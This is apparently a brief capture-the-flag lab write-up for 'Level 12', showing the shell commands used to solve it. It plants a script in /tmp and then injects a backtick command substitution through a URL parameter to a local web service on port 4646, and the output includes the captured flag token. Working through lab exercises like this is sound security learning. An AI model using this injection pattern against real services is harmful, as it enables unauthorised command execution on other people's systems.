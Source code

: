# Level 12

## step 1 : analyze level12

## step 2 : shell injection
```
$ echo "getflag > /tmp/flag12" > /tmp/HELLO
$ chmod 777 /tmp/HELLO
$ curl localhost:4646/?x='`/*/HELLO`'
$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
